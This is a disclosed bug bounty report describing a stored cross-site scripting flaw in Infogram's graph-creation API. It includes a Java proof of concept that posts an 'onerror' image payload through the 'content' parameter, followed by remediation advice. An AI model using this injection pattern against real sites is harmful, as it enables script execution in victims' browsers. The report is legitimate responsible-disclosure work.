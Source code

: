 # Stored XSS in content when Graph is created via API

## Report Details
- **Report ID**: 287562
- **URL**: https://hackerone.com/reports/287562
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-11-05T13:35:29.891Z
- **Disclosed**: 2017-11-07T09:32:34.044Z

## Reporter
- **Username**: krankopwnz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: infogram

## Vulnerability Information
#Summary
It is possible for an attacker to insert javascript code into Graphs by creating a project via the API

#Steps to reproduce
Login
Go to [API Settings](https://infogram.com/app/#settings/api)
Copy your Key + Secret
Go to [API Documentation](https://developers.infogr.am/rest/)
Download one of the official libraries ( I chose JAVA )
In the "main" method add the Key + Secret you copied previously
Add a new parameter "content" with the following content:

`[{\"type\":\"h1\",\"text\":\"asd>\\\"'<img src=a onerror=alert(document.domain)>\"}]`

Add all the other required parameters
My main method looks like this:
```
public static void main(String[] args) {
        InfogramAPI infogram = new InfogramAPI([API-Key], [API-Secret]);

        Map<String, String> parameters = new HashMap<String, String>();

        //parameters = null;

        parameters.put("content", "[{\"type\":\"h1\",\"text\":\"asd>\\\"'<img src=a onerror=alert(document.domain)>\"}]");
        parameters.put("theme_id", "7291");
        parameters.put("title","title");
        parameters.put("publish", "true");
        parameters.put("publish_mode", "public");
        
        try {
            Response response = infogram.sendRequest("POST", "infographics", parameters);

            if (response.isSuccessful()) {
                InputStream is = response.getResponseBody();
                System.out.print(getStringFromInputStream(is).replace(",", ",\n"));
                
            } else {
                String errmsg = String.format("The server returned %d %s", response.getHttpStatusCode(), response.getHttpStatusMessage());
                System.err.println(errmsg);
            }
        } catch (IOException e) {
            System.err.println("There was a problem connecting to the server");
            e.printStackTrace();
        }
    }
```

You will get a 201 response which indicates that the Graph has been successfully created
Now go to your [Dashboard](https://infogram.com/app/#/library)
Open the newly created project
A Javascript popup showing the current domain appears

{F236727}

#Remediation
HTML encode all parameter values before reflecting them on the page

## Attachments
- storedXSS-api.PNG
